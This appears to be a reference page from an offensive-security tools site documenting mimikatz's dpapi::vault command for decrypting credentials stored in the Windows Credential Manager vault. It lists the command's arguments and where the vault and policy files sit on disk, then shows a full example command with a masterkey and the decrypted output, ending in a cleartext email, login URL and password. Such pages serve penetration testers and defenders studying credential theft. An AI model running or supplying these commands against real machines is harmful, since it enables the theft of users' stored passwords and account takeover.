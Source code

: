 # vault

`dpapi::vault` decrypts DPAPI vault credentials from the [Credential Store](https://support.microsoft.com/en-us/windows/accessing-credential-manager-1b5c916a-6a16-889f-8581-fc16e8165ac0). It has the following command line arguments:

* `/cred`: the _**.vcrd**_ files can be found at `C:\Users\<UserName>\AppData\Local\Microsoft\Vault`, `C:\Users\<UserName>\AppData\Roaming\Microsoft\Vault, C:\ProgramData\Microsoft\Vault` and `C:\Windows\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault`
* `/policy`: The _**policy.vpol**_ file can be found at `C:\ProgramData\Microsoft\Vault\`
* `/password`: the password to decrypt the vault credentials
* `/masterkey`: the masterkey to use for decryption. It can be obtained through [`sekurlsa::dpapi`](https://tools.thehacker.recipes/mimikatz/modules/sekurlsa/dpapi).
* `/unprotect`: display the decryption results on screen

```
mimikatz # dpapi::vault /cred:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\21CD6FA9B5E4C7D1D04AE0182DD7F440F54E02ED.vcrd" /policy:"C:\Users\m3g9tr0n\AppData\Local\Microsoft\Vault\4BF4C442-9B8A-41A0-B380-DD4A704DDB28\Policy.vpol" /masterkey:3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
**VAULT CREDENTIAL**
  SchemaId            : {3ccd5499-87a8-4b10-a215-608888dd3b55}
  unk0                : 00000004 - 4
  LastWritten         : 13/12/2021 21:33:59
  unk1                : ffffffff - 4294967295
  unk2                : 00000000 - 0
  FriendlyName        : Internet Explorer
  dwAttributesMapSize : 00000030 - 48
  * Attribute   1 @ offset 00000080 - 128  (unk 00000020 - 32)
  * Attribute   2 @ offset 000000b5 - 181  (unk 00000020 - 32)
  * Attribute   3 @ offset 000000ea - 234  (unk 00000020 - 32)
  * Attribute 100 @ offset 00000100 - 256  (unk 00000020 - 32)
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000001 - 1
    unk0/1/2: 00000002/00000007/0000000a
    Data    : 168989db87d1e9011a33035f2aa7d104ba57ed82ca427d10b07ca202c8f1d272
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000002 - 2
    unk0/1/2: 00000002/00000007/0000000a
    Data    : ee08e5dc3f49367fc97b4facc65a748b27f3d814fe4ce177c1eee8c221928839
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000003 - 3
    unk0/1/2: 00000000/00000007/0000000a
  **VAULT CREDENTIAL ATTRIBUTE**
    id      : 00000064 - 100
    unk0/1/2: 00000000/00000008/0000000a
    IV      : edd18a92b5db9a1984bd6600240b642a
    Data    : 9c8f1a59cd4c3a7288c7612e51ba9822bda64128729eb0bd501e182a3eca1890a7212a41836961320fb07651c7206185a8c39f64f1ac60d244e38a3be85b766ed6d7db5973a2b527c3eb4f0900fbef5f03cc14a9b333148316fbc06098c47ced7af023b4c74c2409c446e95156e16633538c5df6899cb14266445efcbe0b8a5b592806a31cdbdf061ca6086e6086af44c2631bdc393d30174a81cd86816b9472c68fe274592c024f0526ff5cf5aa43a960b1a5bf10468876bcda3412507ea393a21cbb617bc93ad8f08f21ad83aa8055

**VAULT POLICY**
  version : 00000001 - 1
  vault   : {4bf4c442-9b8a-41a0-b380-dd4a704ddb28}
  Name    : Web Credentials
  unk0/1/2: 00000001/00000000/00000001
  **VAULT POLICY KEY**
    unk0  : {dd73da0b-fd83-4712-af8b-d153c710c6b9}
    unk1  : {dd73da0b-fd83-4712-af8b-d153c710c6b9}
    **BLOB**
      dwVersion          : 00000001 - 1
      guidProvider       : {df9d8cd0-1501-11d1-8c7a-00c04fc297eb}
      dwMasterKeyVersion : 00000001 - 1
      guidMasterKey      : {5c22983f-77ee-41e4-9086-8073d664e417}
      dwFlags            : 20000000 - 536870912 (system ; )
      dwDescriptionLen   : 00000000 - 0
      szDescription      : (null)
      algCrypt           : 00006603 - 26115 (CALG_3DES)
      dwAlgCryptLen      : 000000c0 - 192
      dwSaltLen          : 00000010 - 16
      pbSalt             : 07da103f232873a46fcaba89df0a9b53
      dwHmacKeyLen       : 00000000 - 0
      pbHmackKey         :
      algHash            : 00008004 - 32772 (CALG_SHA1)
      dwAlgHashLen       : 000000a0 - 160
      dwHmac2KeyLen      : 00000010 - 16
      pbHmack2Key        : c66b772816ab01918d13cafea8163d12
      dwDataLen          : 00000068 - 104
      pbData             : e3ce970b77864701ac345f5f3afef1419f36e628ce32e5053e13fc81727acfc62d7d70126ea5b3e3686bf527bb7ec6f609dc787d10b1329e524994a59d81a2e79115c55127c63d28ba75fa000425d650d21b01465c6affbe5f9b4d01aaa143b3e993042a6b63c1e7
      dwSignLen          : 00000014 - 20
      pbSign             : c39e8a8fb985ac20bc0a607485f49d7fbe45b678



Decrypting Policy Keys:
 * volatile cache: GUID:{5c22983f-77ee-41e4-9086-8073d664e417};KeyHash:850247e2dd89c50536c05bdcee1a56c395e752cf;Key:available
 * masterkey     : 3f7a17dd6658319fcd4b832afc20ac7dacbb9d7cd668527c71f98e90464624634c614a7923a3beb23c4e24dd718f2a8e838ce72935fb29f11507affb543a53c3
  AES128 key: 0fdfe3d0bf2550e7fd25f37898b3dd77
  AES256 key: 888bb82eca576c5d154f024d2980b9a1eacb904ad86b1265ac25b816f57fb3d7

  > Attribute 1 : 7b506f2d6b81d939a8e0456f036ee8970856ff70
  > Attribute 2 : 0a0c5eef791157ee37f51258c5747ee205a4f18c
  > Attribute 3 :
  > Attribute 100 :
  **VAULT CREDENTIAL CLEAR ATTRIBUTES**
    version: 00000001 - 1
    count  : 00000004 - 4
    unk    : 00000001 - 1

    * identity      : myemail@hotmail.com
    * ressource     : https://login.live.com/
    * authenticator : MySuperDuperPass
    * property 100  : c5 a6 4d 4e 34 22 d9 4a a5 9d c8 66 c8 3e cb a6
```
